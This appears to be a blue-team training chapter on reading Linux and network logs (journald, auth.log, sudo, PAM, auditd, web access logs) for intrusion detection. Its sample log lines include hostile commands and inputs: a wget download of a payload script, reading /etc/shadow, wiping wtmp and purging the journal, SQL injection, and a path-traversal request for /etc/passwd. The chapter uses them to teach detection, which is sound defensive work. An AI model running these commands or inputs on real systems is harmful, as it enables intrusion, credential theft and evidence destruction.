





This is Chapter 8 of the SOC & Blue Team notebook. Chapter 7 taught you to read Windows events fluently — LogonTypes, 4624/4688/4769, Sysmon, EVTX triage. This chapter does the same job for the other half of the enterprise: **Linux hosts and the network fabric that connects everything**. Over 96% of public-facing web servers, almost every container, and the entire cloud control plane run on Linux, and every packet between every host crosses devices that can log it. When an intrusion touches a web server, a jump box, a Kubernetes node, or an appliance, the evidence lands in Linux logs and network telemetry — not the Windows Security channel. A SOC analyst who can only read Windows is blind to half the kill chain.

This is a source-knowledge chapter, the Linux/network twin of Chapter 7. We go deep on where Linux writes its logs and why (syslog vs. `systemd-journald`), the authentication trail (`auth.log`/`secure`, `sshd`, `sudo`, PAM), the Linux **audit framework** (`auditd`) that gives you process-execution and file-access telemetry equivalent to Sysmon, and the application logs that matter most in a breach (Apache/Nginx access logs, reverse proxies). Then we climb the stack to the **network**: firewall logs, DNS and DHCP, web proxies, flow records (NetFlow/IPFIX), and full packet capture. Throughout, each source is tied to the ATT&CK techniques it reveals and to the SIEM fields (Chapters 4–6) it feeds.

The framing note, same as always: these logs come from systems you own or are authorized to monitor. Reading them is defensive, forensic, educational work — the attack patterns we decode here exist so you can *catch* them. Practise on your own lab VMs and on public sample datasets (Security Onion's, Malware-Traffic-Analysis.net, the AIT log datasets), never on systems you have no authority over.

We build from the Linux logging architecture and the classic `/var/log` layout, into `systemd-journald` and `journalctl`, the authentication and `sudo`/PAM trail, `auditd` in depth, web and proxy application logs, then the network sources — firewall, DNS, DHCP, proxy, NetFlow/IPFIX and PCAP — the analyst tooling (`journalctl`, `ausearch`, `aureport`, GoAccess, `tshark`, `zeek-cut`), a full hands-on lab reading an intrusion from the logs, a consolidated detection-and-defense section, a final revision, a cheat sheet, and topic-specific practice.

---

## Part 1: Why Linux and Network Logs Are Half of Every Investigation

Chapter 2 introduced the idea that **detection is a data problem** — you can only catch what you log. Chapter 7 filled in the Windows side. But look at where modern intrusions actually live:

- The **initial access** is often a public-facing Linux web server — an exposed admin panel, an unpatched CMS, a leaked SSH key. The first evidence is in an Nginx access log and `auth.log`, not anywhere on Windows.
- **Lateral movement** and **command-and-control** cross the network. The proof is in firewall accept/deny records, DNS queries to a suspicious domain, and flow records showing a long-lived beacon — network sources, not endpoint sources.
- **Cloud** workloads are overwhelmingly Linux. When an attacker abuses stolen credentials to spin up crypto-mining containers, the host telemetry is `auditd` and container runtime logs.

An analyst who reads only Windows will misjudge scope on nearly every real incident. The two skills are complementary: Windows event fluency (Chapter 7) plus Linux-and-network fluency (this chapter) is the minimum to investigate an enterprise end to end.

There is a second reason this chapter matters: **Linux logging is more fragmented than Windows.** Windows funnels almost everything into a handful of well-defined channels with numeric event IDs. Linux spreads its evidence across plain-text files, a binary journal, an audit subsystem, and a dozen application-specific formats, each with its own conventions. There is no single "event ID 4624" for Linux logon — there are `sshd` lines in `auth.log`, `systemd-logind` sessions in the journal, and `USER_LOGIN` records in `auditd`, all describing overlapping slices of the same event. Learning which source answers which question is the core skill.



**How this maps to the SIEM.** Everything in this chapter is a *source*. In a real SOC these sources are shipped by an agent (Filebeat/Elastic Agent, Splunk Universal Forwarder, Wazuh, Fluent Bit, `rsyslog`/`syslog-ng` forwarding, or a NetFlow collector) into the SIEM you learned in Chapters 4–6. When you write `index=linux sourcetype=linux_secure` in Splunk, or `event.dataset:"system.auth"` in Elastic, or a Sentinel `Syslog` query, the raw material underneath is exactly what we dissect here. Knowing the raw format makes every SIEM query sharper and lets you investigate directly on a host when the pipeline is broken or an attacker has tampered with it.

---

## Part 2: The Linux Logging Architecture and the `/var/log` Layout

### The two logging systems that coexist

Modern Linux runs **two logging systems side by side**, and you must understand both:

1. **The syslog family** — the classic Unix logging protocol (RFC 3164 "BSD syslog", modernised by RFC 5424). A daemon (`rsyslog` on Debian/Ubuntu/RHEL, or `syslog-ng`) receives messages, classifies them by **facility** (which subsystem) and **severity** (how bad), and writes them to plain-text files under `/var/log`.
2. **`systemd-journald`** — the systemd journal, present on essentially all modern distros (Ubuntu 16.04+, RHEL/CentOS 7+, Debian 8+). It captures stdout/stderr of every service, kernel messages, and structured metadata into a **binary, indexed journal**, queried with `journalctl`.

On most distros both run: `journald` collects everything and, if configured, forwards to `rsyslog`, which writes the familiar text files. This is why `/var/log/auth.log` and `journalctl -u ssh` often show the *same* SSH events — two views of one stream. Knowing which is authoritative on a given host is step one of any investigation.

### Syslog facilities and severities

Every syslog message carries a **facility** and a **severity**. You will see these referenced in `rsyslog` configs and in SIEM parsing rules, so memorise the security-relevant ones.

| Facility | Number | Meaning / security relevance |
|---|---|---|
| `auth` / `authpriv` | 4 / 10 | Authentication and authorization — **the single most important facility for a SOC**. `sshd`, `sudo`, `login`, PAM all log here. `authpriv` is the private (0600) variant. |
| `kern` | 0 | Kernel messages — OOM kills, netfilter/iptables logs, USB insert, module loads. |
| `daemon` | 3 | System daemons without their own facility. |
| `cron` | 9 | Scheduled jobs — persistence via cron shows here. |
| `mail` | 2 | MTA (Postfix/Sendmail) — relevant to phishing egress and spam abuse. |
| `local0`–`local7` | 16–23 | Custom/app-defined — firewalls and appliances often ship here. |

| Severity | Number | Keyword | Meaning |
|---|---|---|---|
| Emergency | 0 | `emerg` | System unusable |
| Alert | 1 | `alert` | Immediate action |
| Critical | 2 | `crit` | Critical condition |
| Error | 3 | `err` | Error |
| Warning | 4 | `warning` | Warning |
| Notice | 5 | `notice` | Normal but significant — **most auth events are `notice`/`info`** |
| Info | 6 | `info` | Informational |
| Debug | 7 | `debug` | Debug-level |

A syslog "selector" like `auth,authpriv.*` (used in `/etc/rsyslog.d/*.conf`) means "all severities of the auth and authpriv facilities." When an attacker or a misconfiguration drops auth logging, it is usually by editing exactly that selector — so knowing the syntax lets you spot tampering.

### The `/var/log` map every analyst must know

The exact filenames differ between Debian-family and RHEL-family distros. Both matter because you will investigate both.

| Purpose | Debian/Ubuntu | RHEL/CentOS/Fedora | What you find |
|---|---|---|---|
| Authentication | `/var/log/auth.log` | `/var/log/secure` | SSH logins, `sudo`, `su`, PAM, failed passwords — **start here on any intrusion** |
| General system | `/var/log/syslog` | `/var/log/messages` | Catch-all: services, kernel-to-userspace, cron output |
| Kernel ring buffer | `/var/log/kern.log` + `dmesg` | `/var/log/dmesg` + `dmesg` | Netfilter drops, OOM, hardware, module loads |
| Scheduled jobs | `/var/log/cron.log` (if enabled) | `/var/log/cron` | Cron execution — persistence hunting |
| Package manager | `/var/log/apt/history.log`, `dpkg.log` | `/var/log/dnf.log`, `yum.log` | Software installs — attacker tooling |
| Web server | `/var/log/apache2/`, `/var/log/nginx/` | `/var/log/httpd/`, `/var/log/nginx/` | Access + error logs — webshell and exploit evidence |
| Audit | `/var/log/audit/audit.log` | `/var/log/audit/audit.log` | `auditd` — execve, file access, syscalls |
| Boot | `/var/log/boot.log` | `/var/log/boot.log` | Service startup |
| Last logins (binary) | `/var/log/wtmp`, `btmp`, `lastlog` | same | `last`, `lastb`, `lastlog` read these |
| MTA | `/var/log/mail.log` | `/var/log/maillog` | Mail send/receive |

**The binary accounting files** deserve special attention because analysts forget them and attackers exploit them:

- `/var/log/wtmp` — all logins/logouts. Read with `last`.
- `/var/log/btmp` — **failed** logins. Read with `lastb` (root).
- `/var/log/lastlog` — most recent login per user. Read with `lastlog`.

```bash
# Successful logins, most recent first, with source IPs
last -F -a
# wtmp begins Wed Feb 18 03:11:02 2027
# root  pts/0  Wed Feb 18 09:02:14 2027   still logged in   10.0.0.5
# deploy pts/1 Wed Feb 18 08:55:41 2027 - 08:59:03 (00:03)  203.0.113.44

# Failed login attempts (the brute-force trail)
sudo lastb -a | head
# admin  ssh:notty  Wed Feb 18 08:40:11 2027 - 08:40:11  (00:00)  198.51.100.23
```

**Anti-forensics relevance:** because `wtmp`/`btmp` are simple binary structs, attackers zero them (`> /var/log/wtmp`) or surgically edit them with tools like `utmpdump`/`wipe`. If `last` shows a suspiciously short history or a login gap that doesn't match `auth.log`, suspect tampering. Cross-checking these accounting files against `auth.log` and the journal is a core integrity test — three sources should agree, and disagreement is itself a finding.

### Log rotation — where "old" evidence lives

`logrotate` (config in `/etc/logrotate.conf` and `/etc/logrotate.d/`) rotates logs on a schedule, producing `auth.log.1`, `auth.log.2.gz`, etc. On a busy server the plain `auth.log` may only hold a day or two; the incident you're investigating may be in `auth.log.3.gz`. Always search the rotated set:

```bash
# Search across all rotations, including gzipped, without extracting
sudo zgrep -h "Failed password" /var/log/auth.log*
# Or with the modern approach that also catches .gz:
sudo grep -rh "Accepted password" /var/log/auth.log* 2>/dev/null
```

**Retention is a scoping constraint.** If `logrotate` keeps 4 weeks and the intrusion began 6 weeks ago, the host has no local record of initial access — you must pivot to the SIEM (which ideally retained longer) or to network logs. Knowing the retention policy tells you the boundary of what the host can still tell you.

---

## Part 3: `systemd-journald` and `journalctl` from Scratch

`journalctl` is the single most useful command on a modern Linux host for an analyst, and most people barely scratch it. We teach it from zero.

### What the journal is

`systemd-journald` captures, into a binary indexed store (usually `/var/log/journal/` if persistent, or `/run/log/journal/` if volatile/in-RAM):

- stdout and stderr of every systemd-managed service (so `sshd`, `nginx`, `cron`, etc. are all here even if text logging is off),
- kernel messages,
- structured fields: `_PID`, `_UID`, `_COMM`, `_SYSTEMD_UNIT`, `_HOSTNAME`, `_SOURCE_REALTIME_TIMESTAMP`, and many more,
- audit records (if `auditd` isn't taking them),
- a cryptographically **sealable** log with Forward Secure Sealing (FSS) that can detect tampering.

**Persistence check first.** If `/var/log/journal/` doesn't exist, the journal is volatile and is **lost on reboot** — a crucial fact when an attacker reboots to clear evidence.

```bash
# Is the journal persistent?
ls -d /var/log/journal 2>/dev/null && echo "PERSISTENT" || echo "VOLATILE (RAM only)"
# How big / what time range does it cover?
journalctl --disk-usage
journalctl --list-boots        # every boot the journal remembers
```

### Core `journalctl` workflow

```bash
# Everything, oldest-first (default). Add -e to jump to end, -r to reverse.
journalctl

# Follow live, like tail -f
journalctl -f

# Only the SSH service, this boot
journalctl -u ssh -b

# Time window (accepts absolute or "yesterday", "-1h", etc.)
journalctl --since "2027-02-18 08:00" --until "2027-02-18 10:00"
journalctl --since "-30min"

# By priority: only warnings and worse (numeric or keyword)
journalctl -p warning
journalctl -p 0..3        # emerg..err

# By the process that emitted it
journalctl _COMM=sudo
journalctl _UID=1001

# Kernel only (netfilter drops, OOM, USB)
journalctl -k

# JSON output for piping into jq / a SIEM
journalctl -u ssh -o json | jq '{t:._SOURCE_REALTIME_TIMESTAMP, msg:.MESSAGE}'
```

**Flag reference (the ones that matter in an investigation):**

| Flag | Meaning |
|---|---|
| `-u UNIT` | Filter to a systemd unit (`ssh`, `nginx.service`) |
| `-b [ID]` | This boot; `-b -1` previous boot; `--list-boots` to enumerate |
| `--since` / `--until` | Time bounding; accepts `"YYYY-MM-DD HH:MM"`, `yesterday`, `-2h` |
| `-p` | Priority filter (0–7 or keyword) |
| `-k` | Kernel messages only |
| `-g PATTERN` | grep within the journal (PCRE) |
| `-o FORMAT` | Output: `short`, `verbose`, `json`, `json-pretty`, `cat` |
| `_COMM=`, `_PID=`, `_UID=`, `_SYSTEMD_UNIT=` | Match structured fields exactly |
| `--no-pager` | Dump straight to stdout (for scripting) |
| `-x` | Add catalog explanations to messages |
| `--verify` | Check FSS seal integrity (tamper detection) |

**Why the structured fields are gold.** Because `journald` records `_UID`, `_PID`, `_COMM`, and the real executable path, you can ask questions text logs can't answer, e.g. "show me everything process 4823 did" or "show me every message from a binary that wasn't `/usr/sbin/sshd`." Text logs only have whatever the app chose to print.

```bash
# Everything a suspicious PID emitted across all services
journalctl _PID=4823 -o verbose

# Did sshd ever get invoked from an unexpected path? (masquerade check)
journalctl _COMM=sshd -o verbose | grep _EXE= | sort -u
```

**Tamper detection.** If the host uses FSS (`journalctl --setup-keys` was run at hardening time), `journalctl --verify` will flag any modification of the sealed journal. Even without FSS, comparing journal timestamps for gaps and checking `journalctl --list-boots` for a boot that "shouldn't" be there is a tampering signal. An attacker running `journalctl --rotate --vacuum-time=1s` to purge history leaves the journal suspiciously empty for the period of interest — an absence that is itself evidence.

---

## Part 4: The Authentication Trail — `sshd`, `sudo`, `su`, and PAM

This is the highest-value section for a SOC analyst. Almost every Linux intrusion touches authentication, and the auth trail is where you first see it.

### Reading `sshd` events

SSH is the number-one remote-access vector for Linux, and `sshd` logs to `auth`/`authpriv`. Learn the canonical lines cold.

```text
# Successful key-based login
Feb 18 09:02:14 web01 sshd[4820]: Accepted publickey for deploy from 10.0.0.5 port 51344 ssh2: RSA SHA256:abc123...
# Successful password login (weaker; note it)
Feb 18 09:03:01 web01 sshd[4821]: Accepted password for root from 203.0.113.44 port 51890 ssh2
# Failed password (the brute-force signature, repeated fast)
Feb 18 08:40:11 web01 sshd[4790]: Failed password for admin from 198.51.100.23 port 40122 ssh2
# Failed for a non-existent user (user enumeration / spray)
Feb 18 08:40:12 web01 sshd[4791]: Failed password for invalid user oracle from 198.51.100.23 port 40130 ssh2
# The "invalid user" preface line
Feb 18 08:40:12 web01 sshd[4791]: Invalid user oracle from 198.51.100.23 port 40130
# Connection closed pre-auth (scanners, or auth abandoned)
Feb 18 08:41:00 web01 sshd[4795]: Connection closed by 198.51.100.23 port 40200 [preauth]
```

**What each line tells you:**

- **`Accepted publickey` vs `Accepted password`** — key auth is expected for automation accounts; a sudden `Accepted password for root` from an external IP on a host that normally uses keys is a red flag worth an alert.
- **`Failed password` in bursts from one IP** — classic brute force. Count per source IP and per user.
- **`invalid user`** — the username doesn't exist. Waves of these are credential *spraying* / user enumeration. A list like `oracle, postgres, admin, test, ubuntu, git` from one IP is a scanner working a wordlist.
- **The `[preauth]` tag** — the connection died before authentication completed; common for scanners and for some exploit attempts.

**The brute-force-to-success pattern** is the single most important thing to recognise: dozens/hundreds of `Failed password` from an IP, then an `Accepted password` from the *same IP* for one of the tried users. That is a successful brute force and an immediate escalation.

```bash
# Rank source IPs by number of failed SSH passwords
sudo grep "Failed password" /var/log/auth.log | \
  grep -oE 'from [0-9.]+' | awk '{print $2}' | sort | uniq -c | sort -rn | head

# Did any IP that failed a lot ever succeed? (brute-force success hunt)
sudo grep -E "Accepted (password|publickey)" /var/log/auth.log | \
  grep -oE 'from [0-9.]+' | awk '{print $2}' | sort -u > /tmp/success_ips
sudo grep "Failed password" /var/log/auth.log | \
  grep -oE 'from [0-9.]+' | awk '{print $2}' | sort | uniq -c | sort -rn | \
  awk '$1>20{print $2}' > /tmp/bruteforce_ips
comm -12 <(sort /tmp/success_ips) <(sort /tmp/bruteforce_ips)
# Any IP printed here brute-forced AND eventually logged in — investigate now.
```

### `sudo` and privilege escalation

`sudo` usage is logged to `auth`/`authpriv`. This is your privilege-escalation and hands-on-keyboard trail.

```text
Feb 18 09:10:44 web01 sudo:  deploy : TTY=pts/1 ; PWD=/home/deploy ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Feb 18 09:11:02 web01 sudo:  deploy : TTY=pts/1 ; PWD=/home/deploy ; USER=root ; COMMAND=/bin/bash
# A failed sudo (wrong password) — could be an unauthorised escalation attempt
Feb 18 09:12:00 web01 sudo:  www-data : user NOT in sudoers ; TTY=pts/2 ; PWD=/var/www ; USER=root ; COMMAND=/bin/sh
```

**High-signal patterns:**

- **`www-data`/`nginx`/`apache` running `sudo` at all** — a web service account should almost never use `sudo`. If it does, a webshell or RCE likely reached a shell. The `NOT in sudoers` line above is exactly what you'd see when a compromised web account tries (and fails) to escalate.
- **`sudo ... COMMAND=/bin/bash`** or `su -` after a login — interactive root shell, i.e. hands-on-keyboard.
- **`sudo cat /etc/shadow`**, `sudo cp` of keys, `sudo` editing `/etc/passwd` — credential access / persistence.

`su` events look like:

```text
Feb 18 09:15:00 web01 su: (to root) deploy on pts/1
Feb 18 09:15:07 web01 su: pam_unix(su:auth): authentication failure; logname=deploy uid=1001 euid=0 tty=pts/1 ruser=deploy rhost=  user=root
```

### PAM — the layer under everything

**PAM (Pluggable Authentication Modules)** sits under `sshd`, `sudo`, `su`, `login`, `cron`, and more. Its `pam_unix` and `pam_tally`/`pam_faillock` modules emit the `authentication failure` lines you see across services. Understanding PAM matters for two reasons:

1. Many auth failures are logged *by PAM*, not by the app, so the same failure can appear as both an `sshd` line and a `pam_unix` line — don't double-count.
2. **Persistence via PAM** is a real technique: a malicious PAM module (or a modified `/etc/pam.d/` config) can create a backdoor that accepts a magic password or logs credentials. Changes to `/etc/pam.d/` and new `.so` files in the PAM module directory are worth monitoring (we'll wire that into `auditd` in Part 5).

```bash
# Everything a suspicious PID emitted across all services
journalctl _PID=4823 -o verbose
```



**IR use case:** on a suspected credential-theft box, pull the full auth timeline for the account of interest, correlate `sshd` accept lines with the subsequent `sudo`/`su` chain, and you have the attacker's session reconstructed from authentication alone — before you even look at process telemetry.

---

## Part 5: The Linux Audit Framework (`auditd`) in Depth

Text auth logs tell you *who logged in*. They do **not** tell you *what commands ran*, *what files were touched*, or *what syscalls fired*. For that, Linux has the **audit framework** — `auditd` — which is the closest Linux equivalent to Windows 4688 + Sysmon. If a host has `auditd` configured well, your investigation becomes dramatically richer. Teaching it from scratch:

### What `auditd` is

`auditd` is a userspace daemon that receives audit events from the **kernel audit subsystem** and writes them to `/var/log/audit/audit.log`. You define **rules** (in `/etc/audit/rules.d/*.rules`, compiled to `/etc/audit/audit.rules`) that tell the kernel what to record: specific syscalls, file/directory access ("watches"), and process executions. Because the kernel generates the events, `auditd` sees things even a compromised userspace can't easily hide, and it can run in an immutable mode that resists tampering.

Key components:

- `auditctl` — load/list/modify rules at runtime.
- `/etc/audit/rules.d/*.rules` — persistent rules.
- `/var/log/audit/audit.log` — the raw event store (dense, multi-record events).
- `ausearch` — query the log by field.
- `aureport` — summarise the log.
- `auditd.conf` — daemon config (log size, rotation, `flush`, `max_log_file_action`).

### Reading a raw audit event

A single logical event (like one `execve`) is often several records sharing an **event ID** in `msg=audit(TIMESTAMP:SERIAL)`:

```text
type=SYSCALL msg=audit(1739867444.123:6621): arch=c000003e syscall=59 success=yes exit=0 a0=... ppid=4820 pid=4990 auid=1001 uid=33 gid=33 euid=0 ... comm="bash" exe="/usr/bin/bash" key="exec_root"
type=EXECVE msg=audit(1739867444.123:6621): argc=3 a0="/bin/bash" a1="-c" a2="wget http://203.0.113.44/x.sh -O /tmp/x.sh"
type=PROCTITLE msg=audit(1739867444.123:6621): proctitle=2F62696E2F62617368...
```

**How to read it:**

- `syscall=59` is `execve` (process execution) on x86-64. `success=yes exit=0` means it ran.
- `auid=1001` is the **audit/login UID** — the *original* logged-in user, preserved across `su`/`sudo`. This is the field that defeats "I became www-data so you can't tell it was me": `auid` still points at the human who logged in. `uid=33`/`euid=0` show the run-time and effective identity (here www-data escalated to root).
- `comm`/`exe` are the process name and path.
- `key="exec_root"` is the label from *your* audit rule — you set these so events are searchable.
- The `EXECVE` record reconstructs the full command line, argument by argument (`a0..aN`). Here: `bash -c "wget http://203.0.113.44/x.sh -O /tmp/x.sh"` — a payload download, caught in the act.

### A practical baseline rule set

You don't audit everything (performance and noise). You audit what attackers touch. A defensible starter set (a trimmed cousin of the well-known "Neo23x0/auditd" and CIS rules):

```bash
# /etc/audit/rules.d/hardening.rules
# --- identity & auth files ---
-w /etc/passwd -p wa -k identity
-w /etc/shadow -p wa -k identity
-w /etc/sudoers -p wa -k priv_esc
-w /etc/sudoers.d/ -p wa -k priv_esc
-w /etc/pam.d/ -p wa -k pam_change
-w /etc/ssh/sshd_config -p wa -k sshd_config

# --- persistence locations ---
-w /etc/crontab -p wa -k cron
-w /etc/cron.d/ -p wa -k cron
-w /etc/systemd/system/ -p wa -k systemd_persist
-w /root/.ssh/ -p wa -k ssh_keys
-w /home/ -p wa -k home_ssh   # tighten in prod; watch authorized_keys

# --- command execution by privileged/audit users ---
-a always,exit -F arch=b64 -S execve -F euid=0 -k exec_root
-a always,exit -F arch=b64 -S execve -F auid>=1000 -F auid!=4294967295 -k exec_user

# --- network config & modules ---
-w /etc/hosts -p wa -k network
-a always,exit -F arch=b64 -S init_module -S finit_module -k kernel_module

# --- make the rules immutable until reboot (anti-tamper) ---
-e 2
```

Flag meanings you must understand to read/modify these:

| Rule token | Meaning |
|---|---|
| `-w PATH` | Watch a file/dir |
| `-p wa` | Permissions to watch: `r`ead, `w`rite, `a`ttribute change, e`x`ecute |
| `-a always,exit` | Add a syscall rule that fires on syscall exit |
| `-F arch=b64` | 64-bit syscalls (add a b32 rule too on multilib hosts) |
| `-S execve` | The syscall to match |
| `-F euid=0` | Field filter: effective UID 0 (root) |
| `-F auid>=1000` | Login UID ≥1000 (real human accounts) |
| `-F auid!=4294967295` | Exclude the "unset" auid (`-1`) — daemons/boot |
| `-k KEY` | Tag events with a searchable key |
| `-e 2` | Make config **immutable** until reboot (attacker can't `auditctl -D` it) |

### Querying with `ausearch` and summarising with `aureport`

```bash
# All execve events tagged exec_root in a time window
sudo ausearch -k exec_root --start 08:00 --end 10:00 -i
#   -i "interpret": resolve uids, syscalls, timestamps to human-readable

# Everything a given login user (auid) did — the full session, across su/sudo
sudo ausearch -ua 1001 -i

# Every modification to identity files
sudo ausearch -k identity -i

# Who ran a specific binary?
sudo ausearch -x /usr/bin/wget -i

# Summary reports
sudo aureport --summary            # overall event counts
sudo aureport -au                  # authentication report (success/fail)
sudo aureport -x --summary         # executables run, ranked
sudo aureport -f -i                # file access report
sudo aureport --tty                # captured TTY keystrokes if pam_tty_audit on
```

**Why `auditd` changes an investigation.** With the rule set above, a webshell that runs `id`, `wget`s a payload, `chmod +x`es it, and drops an SSH key into `authorized_keys` generates a clean, timestamped, `auid`-attributed trail — even though every action ran as `www-data`. Without `auditd`, that same activity might leave almost nothing in the text logs. **Blue team usage:** deploying and *shipping* `auditd` (via the audisp syslog plugin or the SIEM agent) is one of the highest-ROI Linux detection projects a SOC can drive.

**Anti-forensics note:** attackers who know Linux will try `auditctl -D` (delete rules), `service auditd stop`, or kill the daemon. The `-e 2` immutable flag blocks rule changes until reboot; a stopped `auditd` is itself alarming and, if you're shipping to a SIEM, the *absence* of the expected heartbeat of audit events is a detection. Also watch for `service auditd stop` / `systemctl stop auditd` in the journal.

---

## Part 6: Web-Server and Reverse-Proxy Logs

Public-facing Linux hosts are usually web servers, so web logs are where you first see exploitation, webshells, and scanning. Apache (`httpd`) and Nginx dominate; their access-log formats are near-identical (the "combined" log format).

### The combined log format, field by field

```text
203.0.113.44 - - [18/Feb/2027:08:52:19 +0000] "POST /uploads/shell.php HTTP/1.1" 200 128 "-" "curl/8.5.0"
```

| Field | Example | Meaning |
|---|---|---|
| Remote host | `203.0.113.44` | Client IP (may be a proxy — check `X-Forwarded-For`) |
| Identd / user | `- -` | RFC1413 ident (unused) / HTTP auth user |
| Timestamp | `[18/Feb/2027:08:52:19 +0000]` | Request time + tz |
| Request line | `"POST /uploads/shell.php HTTP/1.1"` | Method, path, protocol — **the payload surface** |
| Status | `200` | HTTP response code |
| Bytes | `128` | Response size — small+repeated to one URL = beaconing/shell |
| Referer | `"-"` | Referring page |
| User-Agent | `"curl/8.5.0"` | Client UA — tools/scanners often self-identify |

Default log paths: `/var/log/nginx/access.log` + `error.log`; `/var/log/apache2/access.log` (Debian) or `/var/log/httpd/access_log` (RHEL) + the matching `error.log`.

### What attacks look like in access logs

**Directory/content discovery (scanner):** a burst of 404s to `/admin`, `/.git/config`, `/wp-login.php`, `/phpmyadmin`, from one IP with a scanner UA (`gobuster`, `feroxbuster`, `Nikto`, `sqlmap`).

```bash
# Top 404-generating IPs (content discovery / scanning)
awk '$9==404 {print $1}' /var/log/nginx/access.log | sort | uniq -c | sort -rn | head
```

**SQL injection / traversal in the query string:**

```text
GET /product?id=1'+UNION+SELECT+username,password+FROM+users-- HTTP/1.1" 500
GET /download?file=../../../../etc/passwd HTTP/1.1" 200
